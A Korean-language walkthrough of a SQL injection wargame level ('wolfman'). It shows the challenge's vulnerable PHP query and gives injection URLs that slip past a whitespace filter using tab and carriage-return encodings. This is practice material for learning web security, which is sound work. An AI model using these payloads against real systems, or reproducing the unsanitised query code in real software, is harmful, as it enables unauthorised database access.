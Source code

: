 Lord of SQL Injection No.5 - wolfman
=============
```

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
-------------

preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.

preg_match로 인해 공백이 $_GET[pw]에 들어 있으면 No whitespace ~_~가 뜨면서 문제풀이에 실패하게 된다.

id값에는 guest라는 값이 고정되어 있으므로 pw에 값을 넣어 조작해야한다.

DB에 저장된 id가 admin이면 문제가 풀리게 된다.

문제 풀이 법
-------------

1. 공백 우회

스페이스바 %20 대신 Tab(%09),Carrage Return(%0d),주석처리(/**/),Line Feed(%0A)등을 이용한다.

los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%09id='admin'--%09-

los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%0did='admin'--%0d-

*주의 주석처리와 LineFeed는 sql 주석처리 --%20에서는 잘 먹히지 않으니 #을 이용하여 주석처리를 해야한다.
